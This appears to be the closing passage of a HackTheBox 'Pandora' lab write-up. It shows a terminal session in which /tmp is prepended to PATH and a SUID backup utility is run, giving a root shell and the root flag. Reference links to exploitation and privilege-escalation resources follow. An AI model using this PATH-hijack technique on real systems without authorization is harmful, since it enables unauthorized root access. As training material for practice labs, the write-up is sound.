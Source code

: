   ```
  matt@pandora:/tmp$ export PATH=/tmp:$PATH
  matt@pandora:/tmp$ env
  ···
  PATH=/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
  ···
  matt@pandora:/tmp$ /usr/bin/pandora_backup
  PandoraFMS Backup Utility
  Now attempting to backup PandoraFMS client
  root@pandora:/tmp# whoami
  root
  root@pandora:/tmp# cd /root
  root@pandora:/root# ls -l
  total 4
  -r-------- 1 root root 33 Jan 31 13:57 root.txt
  ```

## Reference 

[Pandora](https://app.hackthebox.com/machines/423)

[SNMP扫描（onesixtyone、snmpwalk、snmpcheck）](https://blog.csdn.net/weixin_43876557/article/details/106373263)


[[HTB]HackTheBox-Pandora 渗透实战靶场](http://www.taodudu.cc/news/show-4762464.html?action=onClick)

[Pandora FMS Events Remote Command Execution](https://www.rapid7.com/db/modules/exploit/linux/http/pandora_fms_events_exec/)

[权限提升：PATH](https://www.cnblogs.com/Hekeats-L/p/16867299.html)